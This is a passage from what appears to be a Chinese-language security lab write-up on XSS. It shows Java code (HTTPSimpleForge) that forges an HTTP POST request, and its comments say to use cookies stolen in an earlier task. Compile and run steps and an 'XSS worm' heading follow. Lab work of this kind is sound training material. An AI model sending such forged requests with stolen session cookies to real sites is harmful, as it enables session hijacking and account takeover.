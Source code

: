 ```
urlConn.setConnectTimeout(60000);
urlConn.setReadTimeout(90000);
}
// addRequestProperty method is used to add HTTP Header Information.
// Here we add User-Agent HTTP header to the forged HTTP packet.
// Add other necessary HTTP Headers yourself. Cookies should be stolen
// using the method in task3.
urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
//HTTP Post Data which includes the information to be sent to the server.
String data = "name=...&guid=..";
// DoOutput flag of URL Connection should be set to true
// to send HTTP POST message.
urlConn.setDoOutput(true);
// OutputStreamWriter is used to write the HTTP POST data
// to the url connection.
OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
wr.write(data);
wr.flush();
// HttpURLConnection a subclass of URLConnection is returned by
// url.openConnection() since the url is an http request.
if (urlConn instanceof HttpURLConnection) {
HttpURLConnection httpConn = (HttpURLConnection) urlConn;
// Contacts the web server and gets the status code from
// HTTP Response message.
responseCode = httpConn.getResponseCode();
System.out.println("Response Code = " + responseCode);
// HTTP status code HTTP_OK means the response was
// received sucessfully.
if (responseCode == HttpURLConnection.HTTP_OK)
// Get the input stream from url connection object.
responseIn = urlConn.getInputStream();
// Create an instance for BufferedReader
// to read the response line by line.
BufferedReader buf_inp = new BufferedReader(
new InputStreamReader(responseIn));
String inputLine;
while((inputLine = buf_inp.readLine())!=null) {
System.out.println(inputLine);
}
}
} catch (MalformedURLException e) {
e.printStackTrace();
}
} 
}
```

> - 使用 `javac HTTPSimpleForge.java` 编译文件
> - 使用`java HTTPSimpleForge` 运行程序

### 3.5 XSS蠕虫 
